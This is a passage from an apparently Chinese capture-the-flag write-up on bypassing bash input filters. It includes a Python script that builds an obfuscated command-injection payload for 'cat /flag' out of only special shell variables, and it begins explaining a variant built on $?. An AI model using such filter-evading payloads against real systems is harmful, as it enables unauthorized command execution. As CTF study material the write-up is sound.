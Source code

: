 ![img](assets/19.png)

利用脚本：

```
cmd='cat /flag'

payload='__=${#};${!__}<<<${!__}\\<\\<\\<\\$\\\''
for c in cmd:
        payload+=f'\\\\$(($((1<<1))#{bin(int(oct(ord(c))[2:]))[2:]}))'.replace('1','${##}').replace('0','${#}')

payload+='\\\''

print(payload)
```

顺着这种思路，我开始思考其他构造方式。

## 利用$?构造

从上一次构造我们其实可以发现，只要我们找到一个代表值为零的变量就可以得到bash进而继续构造，$?这个变量自然而然进入我的视线，它可以显示最后命令的退出状态，0表示没有错误，其他表示有错误 ，因此只要我们的payload最后不报错它的值自然还是0了：

![img](assets/20.png)
